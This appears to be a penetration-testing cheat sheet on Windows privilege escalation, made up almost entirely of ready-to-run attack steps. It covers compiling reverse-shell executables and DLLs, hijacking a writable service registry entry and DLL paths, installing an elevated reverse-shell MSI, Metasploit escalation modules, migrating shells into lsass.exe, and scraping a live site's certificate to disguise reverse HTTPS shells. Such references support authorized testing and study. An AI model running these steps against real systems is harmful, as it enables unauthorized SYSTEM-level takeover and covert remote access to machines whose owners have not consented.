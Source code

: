 # Privilege Escalation

## [⬅ Back to Index](../README.md)

---

## Windows

### Services

* Posh
  * Get all: `Get-WmiObject -Class Win32_Service|Format-Table -Property Name,DisplayName,PathName,StartMode`
  * Get specific service DACLs: `Get-Acl -Path hklm:\System\CurrentControlSet\services\`
* Injection to writeable service registry entry
  * `apt-get install gcc-mingw-w64`
  * `x86_64-w64-mingw32-gcc scripts/windows_service.c -o revshell.exe`
  * Copy `service.exe` to `C:\temp`
  * `reg add HKLM\SYSTEM\CurrentControlSet\services\service_with_access /v ImagePath /t REG_EXPAND_SZ /d c:\temp\revshell.exe /f`
  * `sc start service_with_access`
* Unquoted Service Paths
  * `sc qc <service-name>`
  * `wmic service get name,displayname,pathname,startmode | findstr /i /v "c:\windows" | findstr /i /v """`

### DLLs

* Scan application DLLs for preloading attack: [Rattler](https://github.com/sensepost/rattler)
* Replace writeable DLL path with revshell
  * `apt-get install gcc-mingw-w64`
  * `x86_64-w64-mingw32-gcc scripts/windows_dll.c -shared -o revshell.dll`
  * Copy `revshell.dll` to path the service or app uses.
  * Restart service or open app that runs as higher privilege to trigger DLL load.

### Registry

* Check if msi modules run elevated: `reg query HKCU\Software\Policies\Microsoft\Windows\Installer`
  * If so, use `-f msi` for venom payloads.
  * `msiexec /quiet /qn /i revshell.msi`

### Metasploit

* `run post/multi/recon/local_exploit_suggester`
* `sessions -u #` - Attempt automatic escalation to `NT-AUTHORITY\SYSTEM`
* Windows Gather Privileges Enumeration Module - `post/windows/gather/win_privs`
* **All Reverse shells**
  * `setg InitialAutoRunScript migrate -n lsass.exe` - Auto stabilise (such as Services that fail to start and kills the initial stager)
    * Use `-f` on the above to auto create a process `notepad.exe` to utilise (although less inconspicuous)
* **SSL Reverse Shells**
  1. Use `gather/impersonate_ssl` to scrape a certificate from any live HTTPS site, e.g. google.com
  2. Build or use a payload with `reverse_https`
  3. `set handlersslcert ./` to the certificate location created from *Step 1*
  4. `set stagerverifysslcert true`
  5. `run`

### Hot Potato

* Posh module: <https://raw.githubusercontent.com/Kevin-Robertson/Tater/master/Tater.ps1>

### Find Exploits

* Suggest exploits for missing Windows KBs
  * Win 10: <https://github.com/rasta-mouse/Watson>
  * < Win 7: <https://github.com/rasta-mouse/Sherlock> (*Deprecated)
